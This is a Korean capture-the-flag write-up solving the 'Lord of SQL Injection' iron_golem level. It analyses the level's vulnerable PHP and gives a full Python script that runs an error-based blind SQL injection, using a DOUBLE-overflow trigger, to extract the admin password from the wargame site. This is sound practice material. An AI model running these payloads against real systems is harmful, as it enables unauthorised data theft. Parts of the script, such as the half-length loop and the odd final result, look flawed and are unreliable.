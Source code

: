 # Lord of SQL Injection No.21 - iron_golem

## 문제 출제 의도

Error based SQL Injection을 할 수 있는지 확인 한다.

## 소스 코드 분석
```php
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit(mysql_error());
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
  highlight_file(__FILE__);
?>
```
* preg_match 함수에서 pw의 문자열중 'prob','_','.','()','sleep','benchmark'를 필터링 해낸다.

* 'if(mysql_error()) exit(mysql_error());' 부분에서 error를 찾아 출력해준다.

* 아래 입력한 pw값과 sql에서의 반환된 pw값이 일치할때 문제풀이가 해결되므로 Blind SQL Injection임을 알 수 있다.

## 문제 해결 방안
* benchmark와 sleep이 필터링 되므로 다른 방법으로 오류를 내는 지수 연산 최대치를 이용한다.

### 지수 연산 최대치

MySQL에서 e를 이용한 지수연산이 가능한데 9e10의 경우 9*10의 10승이라는 의미를 가지고 있다.

그런데 MySQL에서는 9e307까지 지수연산을 지원하므로 9e307*2를 하거나 9e308이상을 하면 에러가 발생한다.

9e307*2의 경우 DOUBLE value is out of range 오류가 나며 9e308의 경우 illegal 에러가 발생한다.
-----
* 아래 소스코드를 이용하여 문제를 해결한다.

```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수
length = 0;
A = 1
while A >0:
    url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw=%"
    add_url = "' or id='admin' and if(length(pw)={},9e307*2,0)-- -".format(str(A))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)

    re.add_header("User-Agent", "Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=ae1i7c038nndgup1torche1pt7")

    res = urllib.request.urlopen(re)
    resA = res.read()
    if str(resA).find("DOUBLE value is out of range") != -1:
        length = A
        print("Length = {}".format(str(A)))
        break
    A=A+1 
    # pw 의 문자열을 구하는 while문이다 pw의 문자열 길이가 몇인지 범위를 모르므로 while문으로 천천히 증가시켜주며 확인하고 찾을시에 break를 해주는 방법으로 풀었다.
    # if문을 이용해서 에러를 발생시키는데 첫번째 인자가 참이면 두번째 인자의 문장을 거짓이면 세번째 인자의 문장을 실행시키는데 이를 이용하여 문자열의 길이를 찾았을 때 에러를 발생시켜 찾았다.
for i in range(1,(int)(A/2)):
    for j in range(32,127):
        url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="  # SQL Injection 공격 대상인 URL에서 변경되지 않는 부분이다.
        add_url = "' or id='admin' and if(substr(pw,1,{})='{}',9e307*2,0)-- ;".format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=ae1i7c038nndgup1torche1pt7")

        res = urllib.request.urlopen(re)
        resB = res.read()
        if str(resB).find("DOUBLE value is out of range") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break
        # error based이므로 해당 문자열이 맞을 경우 에러를 내는 방법을 사용했다.
print("Finished Searching.")
print("Password : " + result)
```
코드를 실행시킬시에 `!!!!    ` 가 출력되고 이를 입력하게되면 문제가 해결된다.